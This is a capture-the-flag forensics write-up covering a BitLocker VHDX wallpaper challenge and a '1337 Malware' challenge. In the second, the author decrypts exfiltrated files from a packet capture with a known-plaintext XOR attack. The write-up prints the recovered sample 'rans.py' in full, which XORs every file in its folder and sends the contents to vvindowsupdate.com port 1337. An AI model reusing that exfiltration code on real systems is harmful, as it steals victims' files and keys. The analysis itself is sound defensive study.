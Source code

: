 # forensics

## Breath of the wild
> Solved by : thewhiteh4t


- We are given a file without extension, running file command on it shows that its a VHDX file :

```
> file breath-of-the-wild
breath-of-the-wild: Microsoft Disk Image eXtended, by Microsoft Windows 10.0.22631.0, sequence 0xa; LOG; region, 2 entries, id BAT, at 0x300000, Required 1, id Metadata, at 0x200000, Required 1
```

- fastest way to access the disk file is by mounting it in windows, it is bitlocker enabled and we are given a password : `videogames`
- after unlock we can see about 100 wallpapers, the challenge description hints at finding website from where these are downloaded


![](https://i.imgur.com/ntLt6eT.png)



- using `Autopsy` we can automatically get a list of web locations for each file in a matter of seconds : 


![](https://i.imgur.com/OzxcGPt.png)



- one of the URL is using a different domain and it has some extra data which can be decoded in CyberChef : 


![](https://i.imgur.com/1PvaIro.png)



----------


## 1337 Malware
> Solved by : thewhiteh4t


- From the PCAP we can extract `rans.py` by exporting HTTP objects

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)


def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()

    encrypted = xor(data, key)
    return encrypted


def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()


def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)
    return file_paths


files = get_all_files()
for f in files:
    send_encrypted(f)
    # os.remove(f)
```


- script generates a random key using randbytes function
- list of all files is generated and each file is passed to `send_encrypted` function
- it encrypts or encodes each file using XOR against the random key


![](https://i.imgur.com/nVmsdt6.png)



- then it first sends a message with the filename in plaintext and second it sends the encoded string


![](https://i.imgur.com/PGkqdW5.png)



- we can extract all this data to a file using `tshark` :

```
tshark -r 1337-malware.pcapng -T fields -e data.data -Y 'data.data' > enc_strings.txt
```

- since the plain text message has a fixed pattern and it begins by `Sending` the hex string remains constant so we can filter out the plain text message using start of the string : `53656e`
- each hex string of plain text message starts with it, so the full pattern is like :

```
sending file
<XORed data in hex>
.
.
.
sending file
<XORed data in hex>
```

- now we don’t have the key and the key is not sent by the script either
- after some google fu I found : `XOR Known Plaintext Attack`
- https://blog.didierstevens.com/2016/01/01/xor-known-plaintext-attack/
- if we decode only the plaintext hex strings we can see the filenames :

```
Sending: /home/davey/Documents/resources.zip
Sending: /home/davey/Documents/ecorp.png
Sending: /home/davey/Documents/Welcome Aboard.pdf
Sending: /home/davey/Documents/.ssh/id_rsa
Sending: /home/davey/Documents/.ssh/id_rsa.pub
```

- for parsing the data extracted from PCAP we can use the following python code :

```python
with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```

- now if we think about known plain text in these files, for ZIP, PNG and PDF we don’t have much data except their headers
- but for `id_rsa` the first line is standard and is present in all valid keys :

```
-----BEGIN OPENSSH PRIVATE KEY-----
```

- using this with `xor-kpa.py` we can attempt to find the key


![](https://i.imgur.com/V6VrZrZ.png)



- we only need the first key
- now we can write a decode function to get the plain text file contents : 

```python
#!/usr/bin/env python3

from pwn import xor

key = b"\x82\xc2SP\x8b\xd5LG\xa7\xe5m\xec\xd8v\xb5\xd6\xa4\'\xc6E\t\x0br\xe1\xb9q3\"\xfe\xe1YY"


def decrypt_file(filename):
        print(f'Decoding : {filename}')
        with open(filename, 'rb') as encfile:
                data = encfile.read()
        decrypted = xor(data, key)
        orig_fname = filename.replace('enc_', '')
        print(f'Writing : {orig_fname}')
        with open(orig_fname, 'wb') as decfile:
                decfile.write(decrypted)


with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```


- `resources.zip` is password protected
- `ecorp.png` is a reference to our beloved Mr Robot!
- `Welcome Aboard.pdf` contains the following content : 


![](https://i.imgur.com/uEQWs66.png)

- and we now have the password for the zip file!


![](https://i.imgur.com/BFgBtLB.png)



